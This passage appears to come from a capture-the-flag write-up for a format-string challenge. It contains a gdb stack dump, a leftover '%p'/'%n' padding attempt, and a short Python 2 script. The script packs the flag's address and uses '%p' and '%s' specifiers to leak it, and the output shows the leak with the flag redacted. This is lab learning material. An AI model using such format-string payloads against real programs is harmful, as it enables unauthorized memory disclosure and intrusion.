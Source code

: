 ```
Breakpoint 1, 0x0804866b in main ()
(gdb) ni
0x0804866c in main ()
(gdb) ni
0x08048671 in main ()
(gdb) x/24xw $esp
0xffffcbcc:	0x08048a74	0xffffcbe8	0x61700000	0x6f777373
0xffffcbdc:	0x75006472	0x6e726573	0x00656d61	0xf7ff276d
0xffffcbec:	0x00000001	0x6adb07e1	0x00000cf3	0xfffff840
0xffffcbfc:	0xf7f4b3a2	0xf7ffdc5c	0xf7fcf0c0	0xffffcc48
0xffffcc0c:	0x00000007	0xf7fd3128	0x6e43a318	0xf7ffdc50
0xffffcc1c:	0xf7fddffd	0x00000000	0x00000000	0xf7fd31a0
(gdb) ni
0x08048676 in main ()
(gdb) ni
0x08048679 in main ()
(gdb) ni
0x0804867e in main ()
(gdb) ni
Enter password for 0x08048683 in main ()
(gdb) x/24xw $esp
0xffffcbd0:	0x08048a7a	0x61700000	0x6f777373	0x75006472
0xffffcbe0:	0x6e726573	0x00656d61	0x0804a010	0x7c70257c
0xffffcbf0:	0x7c70257c	0x7c70257c	0x7c70257c	0x7c70257c
0xffffcc00:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcc10:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcc20:	0x41414141	0x41414141	0x006e2541	0x00000007
(gdb) 
```

By the way when debugging, to go to the scanf of the username type `break *0x804866b`

After all this while, I tried doing more reading on how to overwrite the printf address and then I stumbled upon [this](https://medium.com/@airman604/protostar-format-4-walkthrough-b8f73f414e59).
Apparently you just need to find the memory address of the flag and print it out. So lets try it. Flag Address `0x8048a93`

Python 2 code
```
import struct
FLAG=0x8048a93
buf = ''
buf += struct.pack('I', FLAG)

buf += '|%p'* 5 # Go to the location where the username is stored
# junk to make printf output 0x41 characters
buf += "%s"
print(buf)
```
```
username => Enter password for �|0x61700000|0x6f777373|0x75006472|0x6e726573|0x656d61CTFSG{<REDACTED FLAG>} => Incorrect credentials!
```
